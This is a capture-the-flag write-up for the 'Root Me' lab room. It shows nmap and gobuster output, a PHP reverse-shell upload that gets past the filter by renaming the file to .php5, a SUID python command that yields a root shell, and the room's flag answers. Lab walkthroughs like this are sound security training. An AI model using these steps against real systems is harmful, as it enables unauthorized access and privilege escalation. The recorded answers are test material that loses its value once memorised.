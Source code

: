 # Root Me

## Reconnaissance

```
# Nmap 7.80 scan initiated Mon Apr  5 21:56:59 2021 as: nmap -sC -sV -vv -oN nmap_scan 10.10.203.168
Nmap scan report for 10.10.203.168
Host is up, received syn-ack (0.054s latency).
Scanned at 2021-04-05 21:56:59 BST for 12s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  5 21:57:11 2021 -- 1 IP address (1 host up) scanned in 12.61 seconds
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.203.168/
[+] Threads      : 50
[+] Wordlist     : /opt/wordlist/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
=====================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
=====================================================
=====================================================

```
**Questions**

    1. Scan the machine, how many ports are open?

2

    2. What version of Apache is running?

2.4.29

    3. What service is running on port 22?

SSH

Find directories using gobuster

    4. What is the hidden directory?

/panel

## Getting A Shell

    1. Find a form to upload and get a reverse shell, and find the flag.

THM{y0u_g0t_a_sh3ll}

Uploading the php reverse shell and changing the extension to be a `.php5` extension allowed me to get a listener back. Searching the system for the flag with `find / -type f -name user.txt 2>/dev/null` found the flag located at `/vat/www/user.txt`.

## Privilege Escalation

    1. Search for files with SUID permission, which file is weird?

`/usr/bin/python`

Find a form to escalate your privileges.

GTFOBins contains a python SUID entry. In order to gain a root shell run the command `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

    2. root.txt?

THM{pr1v1l3g3_3sc4l4t10n}

`find / -type f -name root.txt` - located at /root/root.txt